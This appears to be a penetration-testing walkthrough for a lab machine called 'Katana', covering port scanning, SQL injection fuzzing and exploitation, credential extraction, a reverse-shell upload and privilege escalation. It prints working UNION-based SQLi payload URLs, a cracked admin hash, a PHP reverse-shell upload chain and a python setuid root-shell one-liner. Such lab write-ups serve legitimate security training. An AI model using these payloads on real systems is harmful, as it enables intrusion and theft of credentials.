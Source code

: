 # Katana
## Information Gathering
#### Ports/Services
x 21/tcp     ftp           
x 22/tcp     ssh           
80/tcp     http          
7080/tcp   ssl/empowerid 
8088/tcp   http          
8715/tcp   http


## Enumeration
### Nmap scan
```bash
PORT     STATE SERVICE       REASON         VERSION
21/tcp   open  ftp           syn-ack ttl 63 vsftpd 3.0.3
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDp0J8d7K55SuQO/Uuh8GyKm2xlwCUG3/Jb6+7RlfgbwrCIOzuKXICcMHq4i8z52l/0x0JnN0GUIeNu6Ek/ZGEMK4y+zvAs0R6oPNlScpx0IaLDXTGrjPOcutmx+fy6WDW3/jJGLxwu+55d6pAjzzQR37P1eqH8k9F6fbv6YUFbU+i68x9p5bXCC1m17PDO98Che+q32N6yM26CrQMOl5t1OzO3t1pbvMd3VOQA8Qd+fhz5tpxtRBTSM9ylQj2B+z6XjJnbMPhnO3C1oaYHjjL6KiTfD5YabDqsBf+ZHIdZpM+7fOqKkgHa4bbIWPUXB/OuOJnORvEeRCALOzjcSrxr
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDBsZi0z31ChZ3SWO/gDe+8WyFVPrFX7KgZNp8u/1vlhOSrmdZ32WAZZhTT8bblwgv83FeXPvH7btjDMzTuoYA8=
|   256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICo+dAzFw2csa366udGUkSre2W0qWWGoyWXwKiHk3YQc
80/tcp   open  http          syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/empowerid syn-ack ttl 63 LiteSpeed
|_http-title: Did not follow redirect to https://192.168.78.83:7080/
| http-methods: 
|_  Supported Methods: GET HEAD POST
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US/X509v3 Subject Alternative Name=DNS.1=1.55.254.232
| Issuer: commonName=katana/organizationName=webadmin/countryName=US/X509v3 Subject Alternative Name=DNS.1=1.55.254.232
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T13:57:36
| Not valid after:  2022-05-11T13:57:36
| MD5:   0443 4a65 9ba1 0b75 ea8d d1b8 c855 e495
| SHA-1: f89e f85e e6b3 6b10 4ebc 5354 80a0 0ae3 7e10 50cc
| -----BEGIN CERTIFICATE-----
| MIIDfTCCAmWgAwIBAgIUAXyRP1qy58OWLRWfP6CNoErg93wwDQYJKoZIhvcNAQEL
| BQAwTjEPMA0GA1UEAwwGa2F0YW5hMREwDwYDVQQKDAh3ZWJhZG1pbjELMAkGA1UE
| BhMCVVMxGzAZBgNVHREMEkROUy4xPTEuNTUuMjU0LjIzMjAeFw0yMDA1MTExMzU3
| MzZaFw0yMjA1MTExMzU3MzZaME4xDzANBgNVBAMMBmthdGFuYTERMA8GA1UECgwI
| d2ViYWRtaW4xCzAJBgNVBAYTAlVTMRswGQYDVR0RDBJETlMuMT0xLjU1LjI1NC4y
| MzIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDUrg/knoyr6L8pJhlZ
| bEp2vj/1S/2lEiYzl3CbBtCDcNnSQLB2b7hC5vkzIFT5XOHcboXGSWWZ7g1Mlo/U
| irtoeuFYH0KyqYqKH6cJIUCUuIvsKFvEuSpcLB5oHMH1bNYHl8gk2uxnXDRHfxL1
| mhhV+tDewjGu7TzjWcGapvZmJKCQYJto6X4JagN/Xx7bWZQYKb22E/K/17PPg1Wg
| szg2C8a/sj/GWBiw5HADUx5FnQY0FfljwBBSQr10nGiex+w/NAYK8obUTsvUz1P7
| h2aG1V/9FtXHa6HK7YrApieVVTyBZTf4adj5OvmIT5w43vEBZXgCTUMLcf6JmiGy
| OMmdAgMBAAGjUzBRMB0GA1UdDgQWBBRpfqzDB3dS6IMabVgYjX+nQE8xZzAfBgNV
| HSMEGDAWgBRpfqzDB3dS6IMabVgYjX+nQE8xZzAPBgNVHRMBAf8EBTADAQH/MA0G
| CSqGSIb3DQEBCwUAA4IBAQCGCOYvcHj7XrE0fnuDbc4rdQzSVOCOK31F4aV4pWEh
| a6h/WQX9wQBHcs5XPl9D4JVDFQvtxBPWsmnzqqXm8CbeZ7cfAjzPGd994jFBeom6
| 3gnAXmCFSlRsPuqvKkGhBaSDDtzrWE4eZC0H2g9BJp0f6w4sRJSjCH1wZ30Jvgm+
| 9Hkcw9cG0WxkHEBk3SPB7d9iG6rFLJvZE4dcVbA6jtkhQZDrCAqaH69exWtKSQpV
| oBu7+tHFy/8uv7yRuC4fQY7Nmc0JD5otoax1yOpGN/eSz8zRFh+jl5VzdONtXQCO
| H8o8x5fxVi65kRQYil6UcG3lX56V51h/33dxWIDw+lAE
|_-----END CERTIFICATE-----
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
8088/tcp open  http          syn-ack ttl 63 LiteSpeed httpd
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: LiteSpeed
8715/tcp open  http          syn-ack ttl 63 nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
```


### 21/tcp
- vsftpd 3.0.3


### 22/tcp
- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- ssh-auth-methods
	- public key
	- password
	- keyboard-interactive

### 80/tcp
- Apache 2.4.38

`http://192.168.78.83/ebook/bookPerPub.php?pubid=1`
*** 
- Interesting parameter `pubid`


`http://192.168.78.83/ebook/book.php?bookisbn=978-0-321-94786-4`
***
- Interesting parameter `bookisbn`
- Fuzzing for SQLi
```bash
wfuzz -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt --hh 10 "http://192.168.78.83/ebook/book.php?bookisbn=FUZZ"
```
- The URL `http://192.168.78.83/ebook/book.php?bookisbn=)%20or%20(%27x%27=%27x` returns an error message `Can't retrieve data You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'x'='x'' at line 1`

- Determined number of columns - `http://192.168.78.83/ebook/book.php?bookisbn=1%27%20UNION%20SELECT%201,2,3,4,5,6,7--%20-`
- Dumping table names - `http://192.168.78.83/ebook/book.php?bookisbn=1%27%20UNION%20SELECT%20group_concat(table_name),2,3,4,5,6,7%20from%20information_schema.tables--%20-`

- `admin` table
	- Dumping columns - `http://192.168.78.83/ebook/book.php?bookisbn=1%27%20UNION%20SELECT%20group_concat(column_name),2,3,4,5,6,7%20from%20information_schema.columns%20where%20table_name=%27admin%27--%20-` 
		- `name`
		- `pass`
	- Displaying columns `name` and `pass`  - `http://192.168.78.83/ebook/book.php?bookisbn=1%27%20UNION%20SELECT%20group_concat(name),2,group_concat(pass),4,5,6,7%20from%20admin--%20-`
		- `admin:d033e22ae348aeb5660fc2140aec35850c4da997` - cracked hash
			- `admin:admin`

- `customers` table
	- Dumping columns - `http://192.168.78.83/ebook/book.php?bookisbn=1' UNION SELECT group_concat(column_name),2,3,4,5,6,7 from information_schema.columns where table_name='customers'-- -`




- Logged in
	- Attempt to upload file - `http://192.168.78.83/ebook/admin_edit.php?bookisbn=978-1-484217-26-9` - FAILED

`http://192.168.78.83/ebook/admin.php`
***
- Interesting POST parameters
	- `name`
	- `pass`
	- `submit`


### 7080/tcp
- LiteSpeed Web Server 1.5

- Live pages are few, everything that doesn't exist is 403 - `https://192.168.78.83:7080/docs/`
- Just documentation


### 8088/tcp
- LiteSpeed Web Server
- PHP Version 5.6.36

- Directory busting
```
192.168.78.83:8088/
192.168.78.83:8088/blocked => 192.168.78.83:8088/blocked/
192.168.78.83:8088/cgi-bin => 192.168.78.83:8088/cgi-bin/
192.168.78.83:8088/css => 192.168.78.83:8088/css/
192.168.78.83:8088/docs => 192.168.78.83:8088/docs/
192.168.78.83:8088/error404.html
192.168.78.83:8088/img => 192.168.78.83:8088/img/
192.168.78.83:8088/index.html
192.168.78.83:8088/phpinfo.php
192.168.78.83:8088/protected => 192.168.78.83:8088/protected/
192.168.78.83:8088/upload.php
192.168.78.83:8088/upload.html
```

- Interesting directories
	- `blocked` - 403
		- Dirbustered this and got nothing back
	- `protected` - 401
		- Perform dictattack using `medusa`
	- `upload.php`
	- `upload.html`
		- Looks like I can upload files from two different spots
		- I upload a `php-reverse-shell.php` into both spots. The application tells me the name of the file uploaded `Moved to other web server: /tmp/php012FFx ====> /opt/manager/html/katana_php-reverse-shell.php`
		- Trying other webservers gives reverse shell - `http://192.168.78.83:8715/katana_php-reverse-shell.php`

### 8715/tcp
- All uploaded files are uploaded to this webserver


## Exploitation
- Upload a reverse shell to `http://192.168.78.83:8088/upload.html` in the second `Browse` field
- Navigate to `http://192.168.78.83:8715/katana_php-reverse-shell.php` and catch a reverse shell

## Privilege Escalation
- `python2.7` has `cap_setuid+ep` set
- Performing the following drops you into a root shell
```bash
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```